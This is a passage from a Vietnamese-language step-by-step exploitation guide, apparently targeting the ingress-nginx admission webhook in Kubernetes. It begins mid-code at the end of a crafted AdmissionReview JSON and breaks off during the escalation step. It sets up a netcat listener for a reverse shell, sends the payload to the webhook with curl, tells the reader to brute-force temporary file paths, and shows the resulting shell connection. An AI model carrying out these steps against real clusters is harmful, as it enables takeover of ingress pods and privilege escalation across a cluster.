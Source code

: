              }
            },
            "operation": "CREATE"
          }
        }
        ```
        
    * Lưu ý: Đường dẫn `/tmp/client-body-12345` là giả định; bạn có thể cần điều chỉnh (xem bước 7).
        

#### **Bước 6: Thiết lập máy chủ lắng nghe**

* **Mục tiêu**: Chuẩn bị để nhận kết nối reverse shell từ ingress-nginx.
    
* **Hành động**:
    
    * Trên máy tấn công (ngoài cụm), chạy:
        
        ```plaintext
        nc -lvnp 4444
        ```
        
    * Đảm bảo cổng 4444 mở và có thể truy cập từ cụm.
        

#### **Bước 7: Gửi yêu cầu AdmissionReview**

* **Mục tiêu**: Kích hoạt lỗ hổng bằng cách gửi yêu cầu đến webhook.
    
* **Hành động**:
    
    * Từ Pod của bạn, gửi yêu cầu:
        
        ```plaintext
        curl -X POST \
          -H "Content-Type: application/json" \
          -d @admissionreview.json \
          https://10.244.0.5:8443 --insecure
        ```
        
    * Nếu đường dẫn `/tmp/client-body-12345` không chính xác, thử các biến thể (như `/tmp/client-body-*`) bằng cách gửi nhiều yêu cầu với các đường dẫn khác nhau.
        

#### **Bước 8: Nhận kết nối và leo thang**

* **Mục tiêu**: Kiểm soát Pod ingress-nginx và leo thang quyền trong cụm.
    
* **Hành động**:
    
    * Nếu thành công, bạn sẽ thấy kết nối reverse shell trên `nc`:
        
        ```plaintext
        listening on [any] 4444 ...
        connect to [192.168.1.100] from (UNKNOWN) [10.244.0.5] 49152
        bash: no job control in this shell
        ```
        
    * Từ shell, kiểm tra quyền truy cập:
        